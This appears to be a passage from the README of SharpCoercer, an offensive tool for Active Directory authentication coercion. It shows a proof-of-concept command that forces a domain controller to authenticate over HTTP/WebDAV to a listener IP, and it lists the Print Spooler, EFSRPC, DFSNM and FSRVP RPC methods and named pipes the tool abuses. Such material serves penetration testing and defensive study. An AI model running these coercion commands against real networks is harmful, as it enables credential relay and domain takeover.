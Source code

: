 ## Poc of HTTP Coercion
  ```powershell
  .\SharpCoercer.exe -t dc.hecker.local -u adam -p Temp123 -d hecker.local -l 192.168.163.129 -c -a http
  ```
  
### Notes on HTTP Coercion
- Web Client must be enabled on the target machine
-  WebDAV authentication only works if the domain name can be resolved via DNS or NetBIOS. You can’t coerce HTTP authentication unless you have NetBIOS name resolution or you’ve created a DNS record in Active Directory DNS

https://github.com/user-attachments/assets/dc336987-5aba-402e-a037-c48fffd8e604

---

## 📦 Supported RPC Clients

| Interface        | Named Pipe      | Description                         |
| ---------------- | --------------- | ----------------------------------- |
| `RprnRpcClient`  | `\PIPE\spoolss` | MS-RPRN (Print Spooler)             |
| `FsrvpRpcClient` | `\PIPE\winsvr`  | MS-FSRVP (File Server VSS)          |
| `DfsmRpcClient`  | `\PIPE\dfsnm`   | MS-DFSNM (DFS Namespace Management) |
| `EfsRpcClient`   | `\PIPE\lsarpc`  | EFSRPC (Encrypting File System)     |

---

## Available Methods
  ```powershell
.\SharpCoercer.exe -lf
  ```
  ```Available RPC Methods:

[MS-DFSNM] (An RPC interface through which clients remotely configure and manage DFS namespaces)
  - NetrDfsRemoveStdRoot
  - NetrDfsAddStdRoot

[MS-EFSR] (RPC-based protocol for remote maintenance of encrypted network file data.)
  - EfsRpcAddUsersToFile
  - EfsRpcEncryptFileSrv
  - EfsRpcDecryptFileSrv
  - EfsRpcQueryRecoveryAgents
  - EfsRpcQueryUsersOnFile
  - EfsRpcRemoveUsersFromFile
  - EfsRpcFileKeyInfo
  - EfsRpcOpenFileRaw
  - EfsRpcDuplicateEncryptionInfoFile
  - EfsRpcAddUsersToFileEx

[MS-FSRVP] (The File Server Remote VSS Protocol (FSRVP) is an RPC-based service for creating application-consistent shadow copies of remote file shares.)
  - IsPathSupported
  - IsPathShadowCopied

[MS-RPRN] (RPC-based protocol for synchronous printing, spooling, and print job management.)
  - RpcRemoteFindFirstPrinterChangeNotificationEx
```
---
## Available Pipes
```powershell
```